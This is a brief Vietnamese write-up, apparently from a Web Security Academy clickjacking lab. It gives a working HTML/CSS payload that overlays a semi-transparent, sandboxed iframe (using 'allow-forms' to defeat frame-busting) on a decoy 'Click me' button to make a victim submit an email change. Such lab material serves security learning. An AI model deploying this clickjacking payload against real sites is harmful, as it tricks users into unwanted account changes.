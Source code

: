 ![Alt text](../image/lab3/03.png)

Ta sẽ đặt giá trị `allow-forms` vào `iframe`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 448px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a0b00ff04d620b480232b8800e80093.web-security-academy.net/my-account?email=test2@test"></iframe>
```

Kết quả là thành công rồi
